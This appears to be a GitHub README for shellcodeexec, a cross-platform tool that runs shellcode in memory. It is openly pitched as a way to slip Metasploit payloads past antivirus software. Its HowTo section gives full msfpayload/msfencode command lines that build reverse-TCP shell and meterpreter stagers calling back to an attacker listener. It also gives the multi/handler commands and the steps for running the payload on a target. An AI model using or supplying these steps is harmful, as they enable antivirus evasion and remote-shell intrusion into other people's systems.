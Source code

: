 ## Background

This is heavily modified shellcodeexec in order to support gcc, mingw and visual studio.

Most of the shellcode launchers out there, including proof of concepts part of many "security" books, detail how to allocate a memory page as readable/writable/executable on POSIX systems, copy over your shellcode and execute it. This works just fine. However, it is limited to POSIX, does not necessarily consider 64-bit architecture and Windows systems.

## Description

shellcodeexec is an open source script to execute in memory a sequence of opcodes.

This script and the relevant project files (Makefile and Visual Studio files) allow you to compile the tool once then run your shellcode across different architectures and operating systems.

Moreover, it solves a common real world issue: the target system's anti virus software blocking a Metasploit-generated payload stager (either EXE of ELF). Take for instance the following command line:

    $ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=process LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/shikata_ga_nai -o /tmp/payload.exe -t exe

This generates a Metasploit payload stager, payload.exe, that as soon as it lands on the AV-protected target system is recognized as malicious and potentially blocked (depending on the on-access scan settings) by many anti virus products. At the time of writing this text, 21 out 41 anti viruses detect it as malicious - http://goo.gl/HTw7o. By encoding it multiple times with msfencode, less AV softwares detect it, still a lot.

I have been surfing the Net and found some interesting tutorials and guides about packing, compressing, obfuscating and applying IDA-foo to portable executables et similar in order to narrow down the number of AV products that can detect it as a malicious file. This is all interesting, but does not stop few hard-to-die anti viruses to detect your backdoor.

So the question is, how cool would it be to have a final solution to avoid all this hassle? This is exactly where this tool comes into play!

## Features

shellcodeexec:

* Can be compiled and works on POSIX (Linux/Unices) and Windows systems.
* Can be compiled and works on 32-bit and 64-bit architectures.
* As far as I know, no AV detect it as malicious.
* Works in DEP/NX-enabled environments: it allocates the memory page where it stores the shellcode as +rwx - Readable Writable and eXecutable.
* It supports alphanumeric encoded payloads: you can pipe your binary-encoded shellcode (generated for instance with Metasploit's msfpayload) to Metasploit's msfencode to encode it with the alpha_mixed encoder. Set the BufferRegister variable to EAX registry where the address in memory of the shellcode will be stored, to avoid get_pc() binary stub to be prepended to the shellcode.
* Spawns a new thread where the shellcode is executed in a structure exception handler (SEH) so that if you wrap shellcodeexec into your own executable, it avoids the whole process to crash in case of unexpected behaviours.

## HowTo

1. Generate a Metasploit shellcode and encode it with the alphanumeric encoder. For example for a Linux target:
```
$ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
Or for a Windows target:
```
$ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
2. Execute the Metasploit multi/handler listener on your machine. For example for a Linux target:
```
$ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
Or for a Windows target:
```
$ msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
3. Execute the alphanumeric-encoded shellcode with this tool. For example on the Linux target:
```
$ ./shellcodeexec <msfencode's alphanumeric-encoded payload>
```
Or, on the Windows target:
```
C:\WINDOWS\Temp>shellcodeexec.exe <msfencode's alphanumeric-encoded payload>
```

## License

This source code is free software; you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation; either version 2.1 of the License, or (at your option) any later version.

This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License along with this library; if not, write to the Free Software Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA  02110-1301  USA

